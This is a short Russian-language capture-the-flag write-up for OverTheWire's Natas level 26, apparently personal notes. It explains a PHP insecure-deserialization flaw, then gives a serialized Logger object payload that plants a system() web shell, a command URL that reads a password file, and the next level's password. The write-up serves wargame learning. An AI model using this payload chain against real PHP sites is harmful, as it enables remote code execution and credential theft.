 сурсы:
```
https://www.php.net/manual/ru/function.serialize.php
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md
```
Здесь интерес представляет 2 момента
1)
```php
...
if (array_key_exists("drawing", $_COOKIE)){
	$drawing=unserialize(base64_decode($_COOKIE["drawing"]));
}
...
```
2)
```php
class Logger{
	private $logFile;
	private $initMsg;
	private $exitMsg;
	
	function __construct($file){
		// initialise variables
		$this->initMsg="#--session started--#\n";
		$this->exitMsg="#--session end--#\n";
		$this->logFile = "/tmp/natas26_" . $file . ".log";
	
		// write initial message
		$fd=fopen($this->logFile,"a+");
		fwrite($fd,$this->initMsg);
		fclose($fd);
	}
...
```
в случае с серриализацей - данные, поступающие из кукы *серриализуются* (преобразуются в указанный тип данных) и пишутся в переменную

в случае с обьявлением класса всё еще лучше - обьявили класс с нужными переменными - записали "лог", за счет магического метода **\_\_construct**

если обьявить класс с нужными нам параметрами:
logFile - img/shell1.php
initMsg - {ничего}
exitMsg - 
```php
<?php system($_GET['cmd']); ?>
```
на выходе получим шелл для выполнения любых команд доступный по адресу: 
```url
http://natas26.natas.labs.overthewire.org/img/shell1.php?cmd={некоторый пэйлоуд}
```

остается самое сложное - инициализировать этот обьект
для этого воспользуемся следущим пэйлоудом
```
O:6:"Logger":3:{s:7:"logFile";s:14:"img/shell1.php";s:7:"initMsg";s:0:"";s:7:"exitMsg";s:30:"<?php system($_GET['cmd']); ?>";}
```
подробнее:

O:6:"Logger":3:{ \#Object длинна имени 6 имя Logger 
s:7:"logFile"; \#string длинна имени 7 имя переменной logFile
	s:14:"img/shell1.php"; \#string длинна имени 14 значение переменной img/shell1.php
s:7:"initMsg";
	s:0:"";
s:7:"exitMsg";
	s:30:"\<?php system\(\$_GET\[\'cmd\'\]\); ?\>";
}

нам остается передать этот пейлоуд в base64, и выполнить что то из разряда
```
http://natas26.natas.labs.overthewire.org/img/shell1.php?cmd=cat%20/etc/natas_webpass/natas27
```

u3RRffXjysjgwFU6b9xa23i6prmUsYne
